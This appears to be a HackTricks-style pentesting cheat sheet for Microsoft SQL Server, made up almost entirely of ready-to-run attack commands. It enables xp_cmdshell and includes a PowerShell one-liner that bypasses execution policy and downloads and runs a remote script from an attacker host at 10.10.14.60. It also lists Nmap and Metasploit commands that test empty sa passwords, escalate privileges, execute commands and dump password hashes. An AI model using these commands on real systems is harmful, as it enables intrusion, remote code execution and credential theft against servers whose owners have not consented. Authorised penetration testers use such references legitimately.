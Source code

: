 ```
EXEC SP_CONFIGURE 'xp_cmdshell' , 1
reconfigure
go
xp_cmdshell 'whoami'
go




xp_cmdshell "powershell.exe -exec bypass iex(new-object net.webclient).downloadstring('http://10.10.14.60:8000/ye443.ps1')"


https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server

Entry_2:
Name: Nmap for SQL
Description: Nmap with SQL Scripts
Command: nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 {IP}

Entry_3:
Name: MSSQL consolesless mfs enumeration
Description: MSSQL enumeration without the need to run msfconsole
Note: sourced from https://github.com/carlospolop/legion
Command: msfconsole -q -x 'use auxiliary/scanner/mssql/mssql_ping; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_enum; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use admin/mssql/mssql_enum_domain_accounts; set RHOSTS {IP}; set RPORT <PORT>; run; exit' &&msfconsole -q -x 'use admin/mssql/mssql_enum_sql_logins; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_escalate_dbowner; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_escalate_execute_as; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_exec; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_findandsampledata; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mssql/mssql_hashdump; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mssql/mssql_schemadump; set RHOSTS {IP}; set RPORT <PORT>; run; exit'

```
<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

